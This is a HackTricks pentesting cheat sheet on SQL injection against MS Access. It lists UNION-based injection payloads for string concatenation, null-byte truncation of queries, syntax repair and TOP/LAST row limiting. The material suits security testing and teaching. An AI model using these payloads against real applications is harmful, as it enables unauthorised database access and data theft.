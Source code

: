 # MS Access SQL Injection

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## Online Playground

* [https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1)

## DB Limitations

### String Concatenation

String concatenation is possible with `& (%26)` and `+ (%2b)` characters.

```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```

### Comments

There are no comments in MS access, but apparently it's possible to remove the last of a query with a NULL char:

```sql
1' union select 1,2 from table%00
```

If this is not working you could always fix the syntax of the query:

```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```

### Stacked Queries

They aren't supported.

### LIMIT

The **`LIMIT`** operator **isn't implemented**. However, it's possible to limit SELECT query results to the **first N table rows using the `TOP` operator**. `TOP` accepts as argument an integer, representing the number of rows to be returned.

```sql
1' UNION SELECT TOP 3 attr FROM table%00
```

Just like TOP you can use **`LAST`** which will get the **rows from the end**.
